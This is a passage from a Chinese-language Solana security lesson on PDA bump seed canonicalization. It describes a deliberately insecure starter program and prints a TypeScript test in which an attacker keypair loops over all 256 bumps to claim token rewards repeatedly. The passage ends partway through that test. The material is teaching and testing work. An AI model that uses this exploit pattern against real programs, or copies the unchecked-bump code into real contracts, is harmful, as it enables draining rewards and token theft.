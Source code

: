 首先获取 [此存储库](https://github.com/Unboxed-Software/solana-bump-seed-canonicalization/tree/starter) 上 `starter` 分支上的代码。

请注意，程序中有两个指令以及 `tests` 目录中的单个测试。

程序中的指令包括：

1. `create_user_insecure`
2. `claim_insecure`

`create_user_insecure` 指令简单地在使用签名者的公钥和传入的 bump 派生的 PDA 上创建一个新账户。

`claim_insecure` 指令向用户铸造 10 个代币，然后标记账户的奖励为已领取，以防止他们再次领取。

然而，该程序并未明确检查所涉及的 PDA 是否使用了规范 bump。

在继续之前，请查看程序以了解其功能。

### 2. 测试不安全的指令

由于指令并未明确要求 `user` PDA 使用规范 bump，因此攻击者可以在每个钱包中创建多个账户，并领取超出应允许的奖励。

`tests` 目录中的测试创建一个名为 `attacker` 的新密钥对来代表攻击者。然后，它循环遍历所有可能的 bumps 并调用 `create_user_insecure` 和 `claim_insecure`。最后，测试期望攻击者能够多次领取奖励，并且获得超过每个用户分配的 10 个代币。

```typescript
it("Attacker can claim more than reward limit with insecure instructions", async () => {
    const attacker = Keypair.generate()
    await safeAirdrop(attacker.publicKey, provider.connection)
    const ataKey = await getAssociatedTokenAddress(mint, attacker.publicKey)

    let numClaims = 0

    for (let i = 0; i < 256; i++) {
      try {
        const pda = createProgramAddressSync(
          [attacker.publicKey.toBuffer(), Buffer.from([i])],
          program.programId
        )
        await program.methods
          .createUserInsecure(i)
          .accounts({
            user: pda,
            payer: attacker.publicKey,
          })
          .signers([attacker])
          .rpc()
        await program.methods
          .claimInsecure(i)
          .accounts({
            user: pda,
            mint,
            payer: attacker.publicKey,
            userAta: ataKey,
          })
          .signers([attacker])
          .rpc()

        numClaims += 1
      } catch (error) {
        if (
          error.message !== "Invalid seeds, address must fall off the curve"
        ) {
          console.log(error)
        }
      }
    }

```